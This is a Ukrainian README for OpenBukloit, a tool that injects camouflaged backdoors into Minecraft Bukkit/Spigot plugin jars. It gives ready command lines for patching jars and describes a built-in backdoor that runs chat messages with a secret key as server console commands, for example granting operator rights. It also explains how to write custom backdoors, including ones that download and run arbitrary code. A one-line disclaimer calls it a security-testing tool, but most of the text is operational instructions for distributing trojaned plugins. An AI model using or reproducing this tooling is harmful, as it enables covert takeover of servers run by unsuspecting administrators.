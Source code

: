 <div align="center"><h1>OpenBukloit - Інжектор бекдорів для Minecraft плагінів</h1></div>

<div align="center"><img alt="Logo" src="../logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-ЗАВАНТАЖИТИ_ОСТАНІЙ_РЕЛІЗ_(КЛІК)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Мови: [English](../README.md), [Русский](README_RU.md), [Українська](README_UA.md)**

**OpenBukloit** — сучасний та потужний універсальний інжектор бекдорів, сумісний з усіма Bukkit/Spigot/Paper/і т.д. плагінами. Його особливістю є можливість інтеграції з будь-яким плагіном без необхідності щоразу модифікувати бекдор. Більш того, він забезпечує потужний двигун камуфляжу,
що робить практично неможливим його пошук без достатніх знань чи просунутих автоматизованих інструментів. OpenBukloit був розроблений для тестування систем безпеки серверів Minecraft. Команда VoxelHax не несе відповідальності за його неправомірне використання.

Це продовження проекту **[Bukloit](https://github.com/Rikonardo/Bukloit)**, в якому ми врахували всі проблеми попереднього проекту та використали зовсім інший підхід до розробки.

## Можливості OpenBukloit
- **Повна підтримка Bukkit та його форків на будь-якій версії Minecraft.**
- **Підтримка користувальницьких бекдорів.**
- **Автоматичне завантаження JDK, тому вам не потрібно дбати про сумісність версії Java.**
- **Потужний камуфляжний двигун, що ускладнює пошук бекдору у плагіні.**

## Встановлення
Для використання OpenBukloit у вас має бути встановлена будь-яка версія Java (але не нижче 8). Jar-файл OpenBukloit можна завантажити з [вкладки релізів](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit не вимагає жодних додаткових дій, просто помістіть файл jar кудись і використовуйте його з командного рядка.

## Використання
Щоб запустити OpenBukloit, відкрийте командний рядок у каталозі, де знаходиться jar-файл OpenBukloit та введіть:

```sh
java -jar OpenBukloit.jar
```

*Обов’язково вкажіть номер версії після назви OpenBukloit. Наприклад, якщо ви завантажили версію `OpenBukloit-1.0.12`, переконайтеся, що у команді ви використовуєте назву `OpenBukloit-1.0.12.jar`, а не просто `OpenBukloit.jar`*

Після імені файлу jar можна передати деякі аргументи для налаштування інжектора:

| Короткий аргумент | Довгий аргумент | Опис                                                                                                                                                                                  | Тип      |
|-------------------|-----------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|
| -e                | --exploit       | Шлях до скомпільованого файлу .class або до похідного коду .java, який буде використовуватися як бекдор.<br />**За замовчуванням використовується вбудований бекдор.**                | Значення |
| -m                | --mode          | Режим Може бути одиночним/множинним.<br />**За замовчуванням: <ins>multiple</ins>.**<br />У множинному режимі змінює всі файли у зазначеній папці. В одиночному - лише вказаний файл. | Значення |
| -i                | --input         | Шлях до вхідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>in</ins> (<ins>in.jar</ins> якщо режим одиночний).**                                                 | Значення |
| -o                | --output        | Шлях до вихідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>out</ins> (<ins>out.jar</ins> якщо режим одиночний).**                                              | Значення |
| -r                | --replace       | Замінювати вихідний файл, якщо він вже існує.                                                                                                                                         | Флаг     |
|                   | --no-camouflage | Не застосовувати камуфляж (може бути корисним, якщо камуфляж не працює належним чином через обфускацію плагіна).                                                                      | Флаг     |
|                   | --class-name    | **Працює тільки з флагом `--no-camouflage`!** Задати кастомну назву для класа експлоїта (може включати назву пакета, наприклад: `com.voxelhax.OpenBukloitExploit`).                   | Значення |
|                   | --method-name   | **Працює тільки з флагом `--no-camouflage`!** Задати кастомну назву для метода `inject` у класі експлоїта.                                                                            | Значення |

Але цих аргументів недостатньо для запуску OpenBukloit. Ви також маєте вказати параметри бекдора. Оскільки OpenBukloit підтримує впровадження користувацьких бекдорів, ви повинні передати додаткові аргументи, які потрібні для бекдору.

## Вбудований експлоїт

За замовчанням OpenBukloit використовує вбудований бекдор. Це простий бекдор, який дозволяє виконувати будь-які команди з консолі, написавши спеціальне ключове слово перед командою в чаті.

Параметри вбудованого бекдору:

| Довгий аргумент | Опис                                                      |
|-----------------|-----------------------------------------------------------|
| --key           | Ключове слово, яке запускає виконання консольної команди. |

Використання у грі ключа, встановленого на значення "hackthisserver":

```
hackthisserver op MyName
```

Це повідомлення, відправлене в чат, буде виконане як консольна команда і дасть ОП гравцю MyName.

**Ось кілька прикладів використання OpenBukloit із вбудованим бекдором:**

1. Пропатчити всі .jar файли з ключем "#console" із папки "in" і зберегти їх у папку "out" без заміни.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Пропатчити всі файли з ключем "hacktheserver" з папки "in" і зберегти їх у папку "out" із заміною.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Пропатчити один файл "PluginName.jar" з ключем "#console" і зберегти його як файл "Output.jar" із заміною.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

4. Пропатчити один файл "PluginName.jar" з ключем "#console" і зберегти його як файл "Output.jar" із заміною. Не застосовувати камуфляж і назвати клас експлоїта "com.voxelhax.OpenBukloitExploit".

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r --no-camouflage --class-name "com.voxelhax.OpenBukloitExploit"
```

## Написання користувальницького експлоїту

Ви також можете написати власний бекдор. Це має бути клас із методом `public static void inject(JavaPlugin args)` (JavaPlugin з Bukkit API).

Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

Метод `inject` буде виконаний після методу `onEnable` плагіна. Ви можете робити тут все, що ви хочете, включаючи завантаження та запуск довільного коду з Інтернету.

Але ви повинні знати, що є деякі обмеження:
- В даний час ви не можете використовувати вкладені класи, у файлі експлоїту має бути лише один клас.
- Ви не повинні посилатися на свій клас експлоїту всередині нього, наприклад, використовувати його як параметри методу, як значення, що повертається, або як тип поля.

Ви можете використовувати зовнішні параметри з командного рядка, використовуючи %placeholders%, вони будуть підставлені в процесі інжекта:
Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

Потім ви можете заінжектити бекдор за допомогою команди:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Зверніть увагу, що ми можемо передати наш бекдор OpenBukloit без компіляції, і він автоматично скомпілює його з наявністю API Spigot в пулі класів під час компіляції.

